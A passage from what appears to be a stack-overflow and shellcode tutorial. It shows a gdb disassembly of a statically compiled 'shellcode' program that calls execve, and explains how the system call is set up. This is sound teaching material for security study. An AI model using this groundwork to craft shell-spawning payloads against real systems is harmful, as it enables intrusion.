    To find out what does it looks like in assembly we compile it, and start
up gdb.  Remember to use the -static flag. Otherwise the actual code the
for the execve system call will not be included.  Instead there will be a
reference to dynamic C library that would normally would be linked in at
load time.

</PRE>
```nasm
[aleph1]$ gcc -o shellcode -ggdb -static shellcode.c
[aleph1]$ gdb shellcode
(gdb) disassemble main
Dump of assembler code for function main:
0x8000130 <main>:       pushl  %ebp
0x8000131 <main+1>:     movl   %esp,%ebp
0x8000133 <main+3>:     subl   $0x8,%esp
0x8000136 <main+6>:     movl   $0x80027b8,0xfffffff8(%ebp)
0x800013d <main+13>:    movl   $0x0,0xfffffffc(%ebp)
0x8000144 <main+20>:    pushl  $0x0
0x8000146 <main+22>:    leal   0xfffffff8(%ebp),%eax
0x8000149 <main+25>:    pushl  %eax
0x800014a <main+26>:    movl   0xfffffff8(%ebp),%eax
0x800014d <main+29>:    pushl  %eax
0x800014e <main+30>:    call   0x80002bc <__execve>
0x8000153 <main+35>:    addl   $0xc,%esp
0x8000156 <main+38>:    movl   %ebp,%esp
0x8000158 <main+40>:    popl   %ebp
0x8000159 <main+41>:    ret
End of assembler dump.
(gdb) disassemble __execve
Dump of assembler code for function __execve:
0x80002bc <__execve>:   pushl  %ebp
0x80002bd <__execve+1>: movl   %esp,%ebp
0x80002bf <__execve+3>: pushl  %ebx
0x80002c0 <__execve+4>: movl   $0xb,%eax
0x80002c5 <__execve+9>: movl   0x8(%ebp),%ebx
0x80002c8 <__execve+12>:        movl   0xc(%ebp),%ecx
0x80002cb <__execve+15>:        movl   0x10(%ebp),%edx
0x80002ce <__execve+18>:        int    $0x80
0x80002d0 <__execve+20>:        movl   %eax,%edx
0x80002d2 <__execve+22>:        testl  %edx,%edx
0x80002d4 <__execve+24>:        jnl    0x80002e6 <__execve+42>
0x80002d6 <__execve+26>:        negl   %edx
0x80002d8 <__execve+28>:        pushl  %edx
0x80002d9 <__execve+29>:        call   0x8001a34 <__normal_errno_location>
0x80002de <__execve+34>:        popl   %edx
0x80002df <__execve+35>:        movl   %edx,(%eax)
0x80002e1 <__execve+37>:        movl   $0xffffffff,%eax
0x80002e6 <__execve+42>:        popl   %ebx
0x80002e7 <__execve+43>:        movl   %ebp,%esp
0x80002e9 <__execve+45>:        popl   %ebp
0x80002ea <__execve+46>:        ret
0x80002eb <__execve+47>:        nop
End of assembler dump.
```
<PRE>
